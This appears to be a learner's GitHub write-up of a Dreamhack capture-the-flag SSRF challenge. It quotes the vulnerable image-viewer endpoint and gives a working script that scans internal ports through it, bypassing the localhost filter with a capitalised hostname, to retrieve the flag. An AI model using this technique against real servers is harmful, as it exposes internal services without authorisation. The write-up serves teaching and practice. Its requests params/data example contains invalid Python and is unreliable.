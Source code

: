 # SSRF : Server Side Request Forgery 

### SSRF is very simillar with CSRF's principle. The difference is who are requesting to specific server.  
### The case server has internal network system general network can't access, but the other server who has permission to access is exist, we can access the internal network of specific server by passing the second server.  
![image](https://github.com/Hueok/dreamhack.io/assets/124287568/40e760f0-40da-4b2e-9b87-f6292fb91b5d)
<br/>


## Exercise of SSRF
> https://dreamhack.io/wargame/challenges/75/

#### Code of endpoint img_viewer
```py
@app.route("/img_viewer", methods=["GET", "POST"])
def img_viewer():
    if request.method == "GET":
        return render_template("img_viewer.html")
    elif request.method == "POST":
        url = request.form.get("url", "")
        urlp = urlparse(url)
        if url[0] == "/":
            url = "http://localhost:8000" + url
        elif ("localhost" in urlp.netloc) or ("127.0.0.1" in urlp.netloc):
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
            return render_template("img_viewer.html", img=img)
        try:
            data = requests.get(url, timeout=3).content
            img = base64.b64encode(data).decode("utf8")
        except:
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
        return render_template("img_viewer.html", img=img)
```
#### And the page is below.
![image](https://github.com/Hueok/dreamhack.io/assets/124287568/0e3fedeb-723e-4db7-8f26-c81cb3fbe98e)

#### Another Fragment of code
```py
local_host = "127.0.0.1"
local_port = random.randint(1500, 1800)
local_server = http.server.HTTPServer(
    (local_host, local_port), http.server.SimpleHTTPRequestHandler
)
print(local_port)


def run_local_server():
    local_server.serve_forever()


threading._start_new_thread(run_local_server, ())

app.run(host="0.0.0.0", port=8000, threaded=True)
```
internal server that has random range(1500 ~ 1800) port is open, having resource directory where the code is run.  
So our flag is on internal server.  
We can access to internal server by only using the image_viewer endpoint.  

#### First, we should find port of internal server. So I programmed some code.
```py
import requests

NOTFOUND_IMG = "iVBORw0KGgoAAAANSUh"

base_url = "http://host3.dreamhack.games:16961/img_viewer"

for port in range(1500, 1801):
    target_url = f"http://Localhost:{port}"
    
    data = {
        'url' : target_url
    }

    resp = requests.post(base_url, data=data).text

    print(f'{port} is running....')
    if NOTFOUND_IMG not in resp:
        result = port
        break

print(result)
```
The point I should not forget is `request.post()`. This function has argument `URL`, `param`, `data` and etc... Important point is difference param and data.  
The param is united with url, While data is included in body of request, not in url.
```py
url = 'http://api.internal'
param = {
    'user' = 'public'
    'permission' = '1'
}
resp = request.post(url, param=param) #The request url -> http://api.internal?user=public&permission=1

data = {
    'user' = 'public'
    'permission' = '1'
}
resp = request.post(url, data=data) #The request url not different with origin one. but the request body has data.
```
_If the webpage has input form, the webpage gain the data from the form. But when we programming it's hard to input data to form box. So we can define dict-data. It has same effect with first way._  

#### Back to the prob. the img data is encoded to base64. so we have to decode the response which is found in src of <img> tag. -> The Flag detected.
